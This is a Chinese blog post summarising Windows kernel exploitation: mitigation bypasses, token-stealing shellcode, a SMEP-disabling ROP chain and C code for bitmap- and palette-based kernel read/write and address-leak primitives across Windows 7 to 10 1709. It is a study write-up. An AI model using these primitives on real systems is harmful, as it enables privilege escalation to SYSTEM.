




title: win内核系列漏洞利用
date: 2020-12-10 20:35:44
tags: 内核分析
这篇文章将会总结一些内核漏洞利用的相关知识 因为版本在不断的提升 所以总是会有新的手段来防止我们去绕过 所以我们总是需要学习研究新的东西
为了防止对操作系统的攻击 在win7下引入了下列防御体系：
使用ASLR基址随机化使系统运行的进程地址无法被预测 GS技术保护了返回指针和函数指针 有效的防止了缓冲区溢出的问题 SafeSEH技术保护了SEH节点 DEP
技术是堆栈等位置的shellcode无法执行 这使我们的利用变以困难 而我们都有相对应的方法来绕过这些机制 大致说一下方法
这部分大致说的是一些老旧的内容 现在可能部分已经失效 所以我不再大篇幅说很多关于它的东西
在内存中并不是所有的函数 所以当某些函数并没有启用GS功能的时候 我们就可以突破GS的保护了
GS使在函数返回的时候检查Cookie 而没返回之前并没有进行检查 所以我们可以在返回之前劫持程序流 c++的虚函数就可来实现
覆盖SEH的函数指针 然后触发异常 使程序转入异常处理 从而执行我们的指针
将栈中的Cookie和.data中的Cookie同时替换我们即可在检查的时候绕过
在某些程序的编译并没有启用SafeSEH 亦或者某个模块并没有启用SafeSEH的加载模块 这时候我们就可以使用模块中的pop/ret指令或者其他等价指令来绕过保护
当某个函数启用SafeSEH没启用GS时 我们将函数返回地址覆盖即可
类似于GS
依然如上 某个进程未开启DEP 我们攻击此进程即可
我们在库中找到执行系统命令的代码 用这段代码的地址覆盖返回地址 从而去执行程序外部的库代码 使其不执行堆栈上的不可执行区域
这早在pwn中就听到过一些 回到我们的老本行了 通过retn指令在库函数中寻找可用代码攻击
DEP的设置标志位于内核的KPROCESS结构中 这个标志可以使用NtQueryInformationProcess和NtSetInformationProcess函数通过设置ProcessExecuteFlags类来查询和修改 使用完NtQueryInformationProcess再配合ret2libc的使用 使其再返回到用户控制的缓冲区
可使用ret2libc的使用VirtualAlloc和VirtualProtect函数 使内存可执行 或者通过WriteProcessMemory将shellcode拷贝到.code中执行
kd> dt !_EPROCESS -r
nt!_EPROCESS
.
省略
.
+0x06c Flags : _KEXECUTE_OPTIONS
+0x000 ExecuteDisable : Pos 0, 1 Bit
+0x000 ExecuteEnable : Pos 1, 1 Bit //启用DEP被置位
+0x000 DisableThunkEmulation : Pos 2, 1 Bit
+0x000 Permanent : Pos 3, 1 Bit //置位后设置不可改变
+0x000 ExecuteDispatchEnable : Pos 4, 1 Bit //禁用DEP被置位
+0x000 ImageDispatchEnable : Pos 5, 1 Bit
+0x000 DisableExceptionChainValidation : Pos 6, 1 Bit
+0x000 Spare : Pos 7, 1 Bit
+0x000 ExecuteOptions : UChar在ASLR中 我们每次加载的地址部分高位是动态的 相对地址是不变的 修改指针的低位可得到稳定得到 所以我们可以覆盖部分返回地址 使得覆盖后的地址相对于基地址的距离也是固定的
如上思路
使用堆喷射技术 申请大量的内存地址 在其中加上我们的shellcode
首先需要考虑的就是 在内存中如何去布置我们的shellcode 为了保证在内核中执行不出错 我们必须找到一块不怎么使用的地址去存储shellcode
在这篇文章中 可以知道一个函数NtQueryIntervalProfile 而这个函数调用了KeQueryIntervalProfile函数
kd> u nt!NtQueryIntervalProfile+0x6b //win7 32位
nt!NtQueryIntervalProfile+0x6b:
84119ed6 e83ae5fbff call nt!KeQueryIntervalProfile (840d8415)kd> u nt!NtQueryIntervalProfile+0x38 //win7 64位
nt!NtQueryIntervalProfile+0x38:
fffff800`0425f0d8 e8930affff call nt!KeQueryIntervalProfile (fffff800`0424fb70)进而在该函数中调用了HalDispatchTable数组
kd> u nt!KeQueryIntervalProfile+0x14 //win7 32位
nt!KeQueryIntervalProfile+0x14:
840d8429 8945f0 mov dword ptr [ebp-10h],eax
840d842c 8d45fc lea eax,[ebp-4]
840d842f 50 push eax
840d8430 8d45f0 lea eax,[ebp-10h]
840d8433 50 push eax
840d8434 6a0c push 0Ch
840d8436 6a01 push 1
840d8438 ff15fc83f383 call dword ptr [nt!HalDispatchTable+0x4 (83f383fc)] //32位是+4的地址kd> u nt!KeQueryIntervalProfile+0x1d //win7 64位
nt!KeQueryIntervalProfile+0x1d:
fffff800`0424fb8d ba0c000000 mov edx,0Ch
fffff800`0424fb92 894c2420 mov dword ptr [rsp+20h],ecx
fffff800`0424fb96 4c8d4c2440 lea r9,[rsp+40h]
fffff800`0424fb9b 8d4af5 lea ecx,[rdx-0Bh]
fffff800`0424fb9e 4c8d442420 lea r8,[rsp+20h]
fffff800`0424fba3 ff15bf40e0ff call qword ptr [nt!HalDispatchTable+0x8 (fffff800`04053c68)] //64是+8的地址
fffff800`0424fba9 85c0 test eax,eax
fffff800`0424fbab 780d js nt!KeQueryIntervalProfile+0x4a (fffff800`0424fbba)接下来是如何获取HalDispatchTable地址的问题 首先我们获取到ntoskrnl.exe的基址 进而根据基址偏移计算出HalDispatchTable地址
所以 就有了以下代码
#include<stdio.h>
#include<Windows.h>
#include<Psapi.h>
int main()
{
LPVOID imagebase[1024];
LPDWORD Needed = NULL;
TCHAR imagename[1024];
EnumDeviceDrivers(imagebase, (DWORD64)sizeof(imagebase), Needed);
for (int i = 0; i < 1024; i++)
{
GetDeviceDriverBaseNameA(imagebase[i], (LPSTR)imagename, 0x40);
if (!strcmp((LPSTR)imagename, "ntoskrnl.exe"))
{
printf("Imagename is %s,Imagebase is 0x%llx\n", imagename, imagebase[i]);
}
}
}然后emmm
在WinDbg中查看 关于名称不一样是操作系统的内核模块根据处理器的个数和是否支持PAE 分为以下四种
ntoskrnl.exe —Uniprocessor单处理器，不支持PAE
ntkrnlpa.exe —Uniprocessor单处理器，支持PAE
ntkrnlmp.exe —Multiprocessor多处理器，不支持PAE
ntkrpamp.exe —Mulitiprocessor多处理器，支持PAE
其实是一个东西
接下来根据偏移 写了如下代码
DWORD64 haldispatchtable()
{
DWORD64 ntbaseaddress = ntoskrnl();
HMODULE ntuseraddress = LoadLibraryA("ntoskrnl.exe");
DWORD64 haluseraddress = (DWORD64)GetProcAddress(ntuseraddress, "HalDispatchTable");
DWORD64 halbaseaddress = (DWORD64)ntbaseaddress + (DWORD64)haluseraddress - (DWORD64)ntuseraddress + 0x8;
printf("HalDispatchTable+0x8 address is 0x%llx\n", halbaseaddress);
}然后得到如下
验证一下 get到了

使用替换Token值的方法来编写 所以有了如下的shellcode
//32位下我们使用内联汇编的形式即可
_asm
{
nop
nop
nop
nop
pushad
mov eax,fs:[124h] // 找到当前线程的_KTHREAD结构
mov eax, [eax + 0x50] // 找到_EPROCESS结构
mov ecx, eax
mov edx, 4 // edx = system PID(4)
// 循环是为了获取system的_EPROCESS
find_sys_pid:
mov eax, [eax + 0xb8] // 找到进程活动链表
sub eax, 0xb8 // 链表遍历
cmp [eax + 0xb4], edx // 根据PID判断是否为SYSTEM
jnz find_sys_pid
// 替换Token
mov edx, [eax + 0xf8]
mov [ecx + 0xf8], edx
popad
ret
}//64位的时候可以单独编写.asm文件
.code
ShellCode proc
mov rax, gs:[188h]
mov rax, [rax+210h]
mov rcx, rax
mov rdx, 4
findSystemPid:
mov rax, [rax+188h]
sub rax, 188h
cmp [rax+180h], rdx
jnz findSystemPid
mov rdx, [rax+0208h]
mov [rcx+0208h], rdx
ret
ShellCode endp
end需要注意的是 我们需要编辑asm文件的属性参考这里
如图配置 然后应用

在自定义生成工具里面如图配置
在做HEVD系列的时候 我们就做过类似的事情 在32位的时候 我们是这样存放的
WriteWhatWhere->What = (PULONG_PTR)&EopPayload;
WriteWhatWhere->Where = (PULONG_PTR)HalDispatchTablePlus4;而到了64位 我们得这样存放 分两次
WriteWhatWherelow->What = (PULONG_PTR)&EopPayload;
WriteWhatWherelow->Where = (PULONG_PTR)HalDispatchTablePlus4;
···
WriteWhatWherehigh->What = (PULONG_PTR)&EopPayload;
WriteWhatWherehigh->Where = (PULONG_PTR)HalDispatchTablePlus4;当我们再次使用win7的那套代码去在win8中使用时 就会发现蓝屏
我们去查看一下出错代码0xfc的意思 代表试图执行不可执行的内存 其实在学习pwn的时候 我们就已经接触到了 类似于NX保护的东西 不过在win下叫做SMEP技术
和DEP有点相似 禁止在内核空间执行用户空间的代码
而在ctfwiki上 我们也可以看到和SMEP技术相关的东西

所以我们可以控制CR4寄存器的值来关闭SMEP
而通常使用的方法是 使用ROP技术 在执行ShellCode之前 使用ROP链将CR4寄存器第20位的值置为0
先看一下开启状态下CR4寄存器的值
-->CR4=0x1506f8换为二进制即为1 0101 0000 0110 1111 1000
-->将第20位置位1即为100 0000 0110 1111 1000换为二进制即为0x406f8
-->即我们需要将CR4置为0x406f8接下来需要寻找一处修改CR4寄存器值的位置 好在师傅们已经做了这部分的工作
uf nt!KiConfigureDynamicProcessor而到了win8.1的时候 变为了这样：
然后需要寻找控制rax内容的方法 在ptsecurity的帖子中我们可以看到说到过HvlEndSystemInterrupt提供了控制rax的地方
uf HvlEndSystemInterrupt则我们构造的ROP链如下
+------------------+
|pop rax; ret |
+------------------+
|value of rax |
+------------------+
|mov cr4, rax; ret |
+------------------+
|addr of payload |
+------------------+我们将Win7执行ShellCode时的地址换为nt!KiConfigureDynamicProcessor函数对应的相应的地址 然后在这之前将rax的值设置为0x406f8 使其赋值给cr4寄存器 即可关闭SMEP
而要实现在win8下的任意读写 我们就需要引入bitmap对象了
官方的介绍 是这样
HBITMAP CreateBitmap(
int nWidth,
int nHeight,
UINT nPlanes,
UINT nBitCount, //nBitCount是一个像素占用的位 如果nBitCount为32 则一个像素为4位 也就是乘4
const VOID *lpBits
);获取bitmap的地址可以从GdiSharedHandleTable入手 当创建一个bitmap时 一个结构被附加到了父进程PEB的GdiSharedHandleTable
[StructLayout(LayoutKind.Explicit, Size = 256)]
public struct _PEB
{
[FieldOffset(148)]
public IntPtr GdiSharedHandleTable32;
[FieldOffset(248)]
public IntPtr GdiSharedHandleTable64;
}PEB的该条目是一个指向GDICELL结构体数组的指针 定义了多种image类型
/// 32bit size: 0x10
/// 64bit size: 0x18
[StructLayout(LayoutKind.Sequential)]
public struct _GDI_CELL
{
public IntPtr pKernelAddress;
public UInt16 wProcessId;
public UInt16 wCount;
public UInt16 wUpper;
public UInt16 wType;
public IntPtr pUserAddress;
}接下来看如何去计算某个进程的bitmap值 先引入一个工具[Process Hacker](Overview - Process Hacker (sourceforge.io)) 该工具可以有效的列出GDI对象句柄
我这里用notepad.exe来举个例子
这里的Handle并不是真正的句柄值 而Object才是我们要的句柄值
但我们可以通过Handle的值去计算Object的值
具体的计算方法如下 即就是使用addr = PEB.GdiSharedHandleTable +（handle＆0xffff）* sizeof（GDICELL64）
所以我们也就有了这样的代码去获取bitamp的地址：
#include<Windows.h>
#include<stdio.h>
int main()
{
char* buffer[0x64 * 0x64 * 4];
HBITMAP bitmap = CreateBitmap(0x64, 0x64, 1, 32, &buffer);
WORD Handle = LOWORD(bitmap);
DWORD64 tebaddress = (DWORD64)NtCurrentTeb(); //获取teb地址
DWORD64 pebaddress = *(PDWORD64)(PUCHAR)(tebaddress + 0x60); //根据teb偏移获取peb地址
DWORD64 GdiShareHandleTableaddress = *(PDWORD64)((PUCHAR)pebaddress + 0xf8); //再根据peb偏移获取Gdi的地址
DWORD64 bitmapaddress = *(PDWORD64)(GdiShareHandleTableaddress+Handle * 0x18); //最后计算bitamp的地址
printf("bitmapaddress is :0x%p", bitmapaddress);
}
泄露出来的bitmap内核地址在内核空间指向下面的GDI baseobject结构
/// 32bit size: 0x10
/// 64bit size: 0x18
[StructLayout(LayoutKind.Sequential)]
public struct _BASEOBJECT
{
public IntPtr hHmgr;
public UInt32 ulShareCount;
public UInt16 cExclusiveLock;
public UInt16 BaseFlags;
public UIntPtr Tid;
}在这一头部之后 有一个特定的结构体 类型取决于该对象的类型 我们只关心pvScan0成员即可 该成员指针指向bitmap的首个扫描行
/// 32bit size: 0x34
/// 64bit size: 0x50
[StructLayout(LayoutKind.Sequential)]
public struct _SURFOBJ
{
public IntPtr dhsurf;
public IntPtr hsurf;
public IntPtr dhpdev;
public IntPtr hdev;
public IntPtr sizlBitmap;
public UIntPtr cjBits;
public IntPtr pvBits;
public IntPtr pvScan0; /// offset => 32bit = 0x20 & 64bit = 0x38
public UInt32 lDelta;
public UInt32 iUniq;
public UInt32 iBitmapFormat;
public UInt16 iType;
public UInt16 fjBitmap;
}而bitmap配合[GetBitmapBits](GetBitmapBits function (wingdi.h) - Win32 apps | Microsoft Docs)与[SetBitmapBits](SetBitmapBits function (wingdi.h) - Win32 apps | Microsoft Docs)函数即可实现任意读写 GetBitmaps允许我们在pvScan0地址上实现读任意字节 SetBitmapBits允许我们在pvScan0地址上实现写任意字节
则我们的方法为
-->创建两个bitmap对象 一个供读 一个供写
-->利用刚才的知识去计算bitmap的地址 进而计算pvScan0的地址
-->利用漏洞将manager的pvScan0指向worker的pvScan0
-->用任意读写进行读写地址（比如我们的ROP链的地址一类的 针对不同的漏洞有不同的用处）写一个粗制的代码便于理解
hManager=CreateBitmap();
hWorker=CreateBitmap(); //创建两个位图
pManagerpvScan0=address1;
pWorkerpvScan0=address2; //分别获取pManager pWorker的pvScan0的内核地址
//触发漏洞 使得pManagerpvScan0写入pWorkerpvScan0
//在hManager上操作设置要写入的地址
SetBitmapBits();
//进行任意读写
SetBitmapBits(hWorker，len，writebuffer);
GetBitmapBits(hWorker，len，readbuffer);在1511版本之前 我们都可以使用上面所说的方法去进行泄露GdiSharedHandleTable 进而进行进一步操作
1511版本仍然可以正常泄露：
但是到了1607的时候 就发生了变化 同样是可以计算泄露的 但这个指针已经不指向一个有效数据的空间了
此时我们已经无法通过这种方法来泄露PrvScan0 所以就需要引入新的方法 所以就有了gSharedInfo结构
typedef struct _SHAREDINFO {
PSERVERINFO psi;
PUSER_HANDLE_ENTRY aheList;
ULONG HeEntrySize;
ULONG_PTR pDispInfo;
ULONG_PTR ulSharedDelts;
ULONG_PTR awmControl;
ULONG_PTR DefWindowMsgs;
ULONG_PTR DefWindowSpecMsgs;
} SHAREDINFO, * PSHAREDINFO;该结构在User32.dll里被导出 实际上它的值是一个内核结构体win32k!tagsharedinfo 的地址
//在win7 32位下可导出该结构
kd> dt win32k!tagsharedinfo
+0x000 psi : Ptr32 tagSERVERINFO
+0x004 aheList : Ptr32 _HANDLEENTRY
+0x008 HeEntrySize : Uint4B
+0x00c pDispInfo : Ptr32 tagDISPLAYINFO
+0x010 ulSharedDelta : Uint4B
+0x014 awmControl : [31] _WNDMSG
+0x10c DefWindowMsgs : _WNDMSG
+0x114 DefWindowSpecMsgs : _WNDMSG接下来看看如何去计算PrvScan0的地址
-->首先使用LocallAlloc分配一块大小为0x06 * 0x300的内存
-->然后使用CreateAcceleratorTable生成加速器表 此时分配的为SessionPool内存池
-->使用GetProcAddress获取User32!gSharedInfo结构
-->进而获取里面的aheList结构 该结构指向PUSER_HANDLE_ENTRY结构数组的指针
-->通过加速句柄(HACCEL)的低16位获取加速器内核地址
-->加速器句柄使用的也是SessionPool 释放加速器后重新申请同样大小的SessionPool则可以使用释放的内存 重复
-->创建Bitmap
-->然后进行占坑操作进而得到PrvScan0地址接下来 贴个代码
int main()
{
HACCEL hAccel = NULL;
LPACCEL lPaccel = NULL;
PUSER_HANDLE_ENTRY firstEntryAddr = NULL;
PUSER_HANDLE_ENTRY secondEntryAddr = NULL;
int nSize = 0x300;
PUCHAR firstAccelKernelAddr;
PUCHAR secondAccelKernelAddr;
PSHAREDINFO pfindSharedInfo = (PSHAREDINFO)GetProcAddress(GetModuleHandle(L"user32.dll"), "gSharedInfo");
//获取user32.dll的gSharedInfo
PUSER_HANDLE_ENTRY gHandleTable = pfindSharedInfo->aheList; //进而获取aheList
LeakBitmapInfo retBitmap;
lPaccel = (LPACCEL)LocalAlloc(LPTR, 0x6 * nSize); //分配内存
for(int i=0;i<10;i++)
{
hAccel = CreateAcceleratorTable(lPaccel, nSize); //创建加速表
firstEntryAddr = &gHandleTable[LOWORD(hAccel)]; //获取低16位加速表内核地址
firstAccelKernelAddr = (PUCHAR)firstEntryAddr->pkernel; //获取地址
DestroyAcceleratorTable(hAccel); //销毁加速窗口
hAccel = CreateAcceleratorTable(lPaccel, nSize); //重复操作
secondEntryAddr = &gHandleTable[LOWORD(hAccel)];
secondAccelKernelAddr = (PUCHAR)firstEntryAddr->pkernel;
if (firstAccelKernelAddr == secondAccelKernelAddr)
{
DestroyAcceleratorTable(hAccel);
LPVOID lpBuf = VirtualAlloc(NULL, 0x50 * 2 * 4, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
retBitmap.hBitmap = CreateBitmap(0x701, 2, 1, 8, lpBuf); //创建bitamp
break;
}
DestroyAcceleratorTable(hAccel);
}
retBitmap.pBitmapPvScan0 = firstAccelKernelAddr + 0x50; //根据偏移获取PvScan0地址
printf("bitmap handle address is: 0x%08x \n", (ULONG)retBitmap.hBitmap);
printf("bitmap pvScan0 address is: 0x%p \n\n", retBitmap.pBitmapPvScan0);
}在1703版本中 User32.dll模块的gSharedInfo结构中的UserHandleTable表发生了变化 原先包含的桌面堆中的对象的内核地址信息被移除了
//1607版本
1: kd> dq poi(user32!gSharedInfo+8)
000001dd`18c90000 00000000`00000000 00000000`00000000
000001dd`18c90010 00000000`00010000 ffffc8b7`80583040
000001dd`18c90020 00000000`00000000 00000000`0001000c
000001dd`18c90030 ffffc8b7`80124830 ffffc8b7`800c6010
000001dd`18c90040 00000000`00014001 ffffc8b7`80073010
000001dd`18c90050 ffffc8b7`80007010 00000000`00010003
000001dd`18c90060 ffffc8b7`805d0820 ffffc8b7`800c6010
000001dd`18c90070 00000000`00010001 ffffc8b7`80073760//1703版本
1: kd> dq poi(user32!gSharedinfo+8)
00000114`bd560000 00000000`00000000 00000000`00000000
00000114`bd560010 00000000`00000000 00000000`00010000
00000114`bd560020 00000000`00202fa0 00000000`00000000
00000114`bd560030 00000000`00000000 00000000`0001000c
00000114`bd560040 00000000`00000000 00000000`0000028c
00000114`bd560050 00000000`00000000 00000000`00014001
00000114`bd560060 00000000`00000000 00000000`00000200
00000114`bd560070 00000000`00000000 00000000`00010003这就意味着我们无法用之前的方法去泄露内核地址了
而在1703版本的方法如下：
-->首先去寻找user32.dll的IsMenu模块 通过该模块去寻找HMValidateHandle函数地址
-->接下来创建一个窗口(RegisterClassW+CreateWindowExW)
-->然后创建保存lpszMenuName 0x1000-0x10字节大小的内核池(Heap Header的大小为0x10)
-->内存紧缩 提前占用空闲0x1000字节的Session Pool 保证释放lpszMenuName后创建的Bitmap稳定杆使用lpszMenuName的内存地址
-->接下来获取UlClientDelta 这是用户桌面堆和内核堆的一个偏移 使用内核桌面堆的地址减去UlClientDelta就是用户桌面堆的地址
-->在通过用户模式映射获取lpszMenuName 即释放后的bitmap地址
-->释放窗口 内核池空闲 创建BitMap 使用刚才释放的 即会占坑 获取到pvScan0的地址BOOL FindHMValidateHandle() {
HMODULE hUser32 = LoadLibraryA("user32.dll");
BYTE* pIsMenu = (BYTE*)GetProcAddress(hUser32, "IsMenu");
unsigned int uiHMValidateHandleOffset = 0;
for (unsigned int i = 0; i < 0x1000; i++) {
BYTE* test = pIsMenu + i;
if (*test == 0xE8) {
uiHMValidateHandleOffset = i + 1;
break;
}
}
unsigned int addr = *(unsigned int*)(pIsMenu + uiHMValidateHandleOffset);
unsigned int offset = ((unsigned int)pIsMenu - (unsigned int)hUser32) + addr;
pHmValidateHandle = (lHMValidateHandle)((ULONG_PTR)hUser32 + offset + 11);
return TRUE;
}
DWORD64 leakBitmap()
{
DWORD64 tebBase = (DWORD64)NtCurrentTeb();
UserKernelDesktopHeap = *(PDWORD64)(tebBase + 0x828);
kernelDesktopHeap = *(PDWORD64)(UserKernelDesktopHeap + 0x28);
ulClientDelta = kernelDesktopHeap - UserKernelDesktopHeap;
return 0;
}
DWORD64 leakWnd(HWND leakWnd)
{
PDWORD64 buffer = (PDWORD64)UserKernelDesktopHeap;
DWORD i = 0;
while (1)
{
if (buffer[i] == (DWORD64)leakWnd)
{
return (DWORD64)(buffer + i);
}
i++;
}
}
DWORD64 lpszMenuName(HWND hwnd)
{
leakBitmap();
DWORD64 wndaddr = leakWnd(hwnd);
DWORD64 kernelTagCls = *(PDWORD64)(wndaddr + 0xa8);
DWORD64 lpszNamemenuAddr = *(PDWORD64)(kernelTagCls - ulClientDelta + 0x90);
return lpszNamemenuAddr;
}
HBMP leak()
{
HBMP hbmp;
DWORD64 curr = 0;
DWORD64 prev = 1;
for (int i = 0; i < 0x700; i++)
{
char buf[0x8f0];
memset(buf, 0x41, 0x8f0);
WNDCLASSEX wnd = { 0x0 };
wnd.cbSize = sizeof(wnd);
wnd.lpszClassName = TEXT("case");
wnd.lpszMenuName = buf;
wnd.lpfnWndProc = DefWindowProc;
int result = RegisterClassExA(&wnd);
HWND test = CreateWindowExA(
0,
wnd.lpszClassName,
TEXT("WORDS"),
0,
CW_USEDEFAULT,
CW_USEDEFAULT,
CW_USEDEFAULT,
CW_USEDEFAULT,
NULL, NULL, NULL, NULL);
curr = lpszMenuName(test);
if (curr == prev)
{
DestroyWindow(test);
UnregisterClassA(wnd.lpszClassName, NULL);
WCHAR* Buff = (WCHAR*)malloc(sizeof(WCHAR) * 0x50 * 2 * 4);
RtlSecureZeroMemory(Buff, 0x50 * 2 * 4);
RtlFillMemory(Buff, 0x50 * 2 * 4, '\x41');
hbmp.hBmp = CreateBitmap(0x701, 2, 1, 8, Buff);
hbmp.kAddr = curr;
hbmp.pvScan0 = (PUCHAR)(curr + 0x50);
return hbmp;
}
DestroyWindow(test);
UnregisterClassA(wnd.lpszClassName, NULL);
prev = curr;
}
return hbmp;
}
int main()
{
BOOL bFound = FindHMValidateHandle();
WNDCLASSEX wnd = { 0x0 };
wnd.cbSize = sizeof(wnd);
wnd.lpszClassName = TEXT("MainWClass");
wnd.lpszMenuName = TEXT("AAAAA");
wnd.lpfnWndProc = DefWindowProc;
int result = RegisterClassEx(&wnd);
HWND test = CreateWindowEx(
0,
wnd.lpszClassName,
TEXT("WORDS"),
0,
CW_USEDEFAULT,
CW_USEDEFAULT,
CW_USEDEFAULT,
CW_USEDEFAULT,
NULL, NULL, NULL, NULL);
bitmap = leak();
printf("bitmap address leak pvScan0 at: 0x%p\n", bitmap.pvScan0);
}再到了1709版本的时候 我们又无法使用之前的方法了 此时的PvScan0已经放进了堆中 所以需要使用新的方法：
在1709版本 需要引入新的概念 Palette 对象
在32位下 Palette的大小为0x58 64下为0x98
创建Palette 对象 使用CreatePalette函数 该函数只有一个指向LOGPALETTE结构的指针 创建一个Sizeof(PALETTE) + palNumEntries * 4大小的Kernel Pool 来保存Palette结构
typedef struct tagLOGPALETTE {
WORD palVersion;
WORD palNumEntries;
_Field_size_opt_(palNumEntries) PALETTEENTRY palPalEntry[1];
} LOGPALETTE, *PLOGPALETTE, NEAR *NPLOGPALETTE, FAR *LPLOGPALETTE;palVersion设置为0x300 palNumEntries为palPalEntry的个数 每个palPalEntry结构为4字节的大小
Palette结构：
typedef struct _PALETTE {
BASEOBJECT BaseObject;
FLONG flPal;
ULONG cEntries; //LOGPALETTE 结构中的 palNumEntries 代表当前 apalColors数组有多少项 修改可进行越界读写
ULONG ulTime;
HDC hdcHead;
ULONG hSelected;
ULONG cRefhpal;
ULONG cRefRegular;
ULONG ptransFore;
ULONG ptransCurrent;
ULONG ptransOld;
ULONG unk_038;
ULONG64 pfnGetNearest;
ULONG pfnGetMatch;
ULONG ulRGBTime;
ULONG pRGBXlate;
PALETTEENTRY *pFirstColor; //指向 Palette.apalColors 地址的指针 修改可进行任意地址读写
struct _PALETTE *ppalThis;
PALETTEENTRY apalColors[1]; //PALETTEENTRY结构的数组
}PALETTE;-->创建窗口设置窗口类菜单名称 可以分配任意大小的Kernel Session Pool 来计算Palette结构的地址
-->计算Palette结构所需要的大小 创建窗口 使用HMValidateHandle 函数获取tagCLS的lpszMenuName地址(占坑) 释放窗口 窗口类 创建Palette结构(与上面思路类似)int main() {
INT I = 0;
HPALETTE HPAL = NULL;
LOGPALETTE* Palette = NULL;
HPALETTE HPAL_LIST[0x100] = { 0 };
PVOID IsMenu_Address = NULL, HMValidateHandle_Address = NULL;
IsMenu_Address = Find_Functions("user32.dll", "IsMenu");
HMValidateHandle_Address = Find_HMValidateHandle(IsMenu_Address);
printf("HMValidateHandle Address(0x%p)\n", HMValidateHandle_Address);
(My_HMValidateHandle)HMValidateHandle = (My_HMValidateHandle)HMValidateHandle_Address;
Create_Window();
PALETTEENTRY* Entries = (PALETTEENTRY*)malloc(5 * sizeof(PALETTEENTRY));
memset(Entries, 0, 5 * sizeof(PALETTEENTRY));
Palette = (LOGPALETTE*)malloc(sizeof(LOGPALETTE) + (sizeof(PALETTEENTRY) * (0x3EA - 0x01)));
Palette->palVersion = 0x0300;
Palette->palNumEntries = 0x3EA;
while (I <= 0x500) {
CreatePalette(Palette);
++I;
}
UnregisterClass(TEXT("case"), GetModuleHandleA(0));
HPAL = CreatePalette(Palette);
printf("HPALETTE:0x%p\n", HPAL);
return 0;
}
目前就只能写到这里了 在17年blackhat上也只介绍到了1703版本 对于缓解措施目前只能从各位师傅的博客 twitter上了解 从而进行总结学习 从一个又一个的防护 再到一个又一个的绕过 师傅们做着各种努力 目前只能跟着慢慢的进行学习 后续学到新的方法机制还会继续写这篇文章 最后 希望对你有所帮助~
wj师傅的指导(由于他本人的博客已经弃了 所以使用google代表他):Google
r00tk1ts的博客：https://r00tk1ts.github.io/
Tj师傅的博客:https://thunderjie.github.io/
sam-b的github:sam-b (Sam Brown) (github.com)
小刀师傅的博客:https://xiaodaozhi.com/
sakura师傅的博客: http://eternalsakura13.com/